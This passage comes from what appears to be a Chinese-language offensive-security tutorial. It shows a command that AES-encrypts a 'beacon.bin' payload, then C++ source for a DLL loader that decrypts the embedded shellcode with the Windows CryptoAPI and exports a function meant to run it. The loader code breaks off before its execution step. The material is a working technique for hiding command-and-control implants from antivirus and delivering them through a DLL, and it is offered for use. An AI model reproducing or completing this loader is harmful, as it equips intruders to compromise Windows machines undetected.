 ```
python3 aes.py beacon.bin
```
![image.png](https://img-blog.csdnimg.cn/img_convert/a19a4f808afb63223f1c8df7c7c0893b.png#averageHue=#0f0c09&clientId=u722c5723-9e25-4&from=paste&height=413&id=ue229e2f7&originHeight=413&originWidth=1920&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=192440&status=done&style=none&taskId=u5898e422-1c84-49b0-b73b-5c29ae0670f&title=&width=1920)
将shellcode放入脚本里
完整版：
```
#include <windows.h>
#include <wincrypt.h>
#include <stdio.h>
#pragma comment (lib, "crypt32.lib")

#pragma comment (lib, "user32.lib")

void DecryptAES(char* shellcode, DWORD shellcodeLen, char* key, DWORD keyLen) {
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
    HCRYPTKEY hKey;

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
        printf("Failed in CryptAcquireContextW (%u)\n", GetLastError());
        return;
    }
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
        printf("Failed in CryptCreateHash (%u)\n", GetLastError());
        return;
    }
    if (!CryptHashData(hHash, (BYTE*)key, keyLen, 0)) {
        printf("Failed in CryptHashData (%u)\n", GetLastError());
        return;
    }
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {
        printf("Failed in CryptDeriveKey (%u)\n", GetLastError());
        return;
    }

    if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)shellcode, &shellcodeLen)) {
        printf("Failed in CryptDecrypt (%u)\n", GetLastError());
        return;
    }

    CryptReleaseContext(hProv, 0);
    CryptDestroyHash(hHash);
    CryptDestroyKey(hKey);

}

BOOL APIENTRY DLLMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved){

    switch (ul_reason_for_call){
    case DLL_PROCESS_ATTACH:
    case DLL_PROCESS_DETACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
        break;
    }
    return TRUE;
}

extern "C"{
__declspec(dllexport) BOOL WINAPI HelloWorld(void){

    MessageBox(NULL, "Welcome", "Security", MB_OK);
    
```